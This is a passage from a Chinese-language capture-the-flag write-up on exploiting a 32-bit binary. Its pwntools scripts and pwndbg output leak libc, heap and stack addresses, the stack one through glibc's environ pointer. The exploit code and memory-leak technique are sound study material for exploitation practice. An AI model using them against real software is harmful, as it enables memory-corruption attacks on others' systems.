 ```python
log.warn('libc_addr: 0x%x' % libc_addr)
log.warn('heap_addr: 0x%x' % heap_addr)

gdb.attach(io,'b * 0x8048beb')

io.interactive()
```

打印地址如下：

```c
[!] libc_addr: 0xf7dda000
[!] heap_addr: 0x81cc490
```

查看libc起始地址

```c
0xf7dda000 0xf7f8a000 r-xp   1b0000 0      /lib/i386-linux-gnu/libc-2.23.so
```

查看堆块地址，可得堆基址为0x81cc000

> pwndbg前面现实的地址为堆块的起始地址，而非数据地址

```c
pwndbg> heap
0x81cc000 PREV_INUSE {
  prev_size = 0, 
  size = 1033, 
  fd = 0x203a203e, 
  bk = 0x81cc490, 
  fd_nextsize = 0x202d20c7, 
  bk_nextsize = 0x80a3024
}
```

可得我们泄漏出的地址0x81cc490比堆基址多出来了0x490的偏移，故袖子

```python
io.recvuntil('27: ')
libc_addr = u32(io.recv(4)) - libc.symbols['puts']
io.recvuntil('28: ')
heap_addr = u32(io.recv(4)) - 0x490
```

至于这个偏移为啥是固定的，应该是程序每次的堆操作都是固定的，所以偏移也是固定的。这个偏移中还存在着asprintf的堆操作，所以不同版本的libc可能偏移时不同的，但是同一个libc下应该是固定的。

### 泄漏栈地址

在 Linux 系统中，glibc 的环境指针 environ(environment pointer) 为程序运行时所需要的环境变量表的起始地址，环境表中的指针指向各环境变量字符串。因此，**可通过 environ 指针泄露栈地址**。

```python
environ_libc = libc_addr + libc.symbols['environ']
payload = 'ya' + p32(environ_libc) + 'a'*0x4 + p32(0)
action(cart,payload)
io.recvuntil("27: ")
stack_addr = u32(io.recv(4))

log.warn('stack_addr: 0x%x' % stack_addr)
```
